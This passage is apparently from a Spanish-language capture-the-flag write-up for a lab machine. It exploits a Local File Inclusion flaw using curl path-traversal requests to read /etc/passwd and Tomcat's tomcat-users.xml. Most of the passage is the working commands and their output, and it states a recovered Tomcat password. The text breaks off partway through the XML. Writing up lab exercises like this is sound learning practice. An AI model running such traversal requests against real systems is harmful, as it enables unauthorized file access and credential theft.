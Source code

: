 He encontrado un `LFI (Local File Inclusion)`

```
# curl http://megahosting.htb/news.php?file=../../../../../../../etc/passwd   
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

`Obtenemos` las `credenciales` del Tomcat `tomcat:$3cureP4s5w0rd123!`

```
# curl http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
```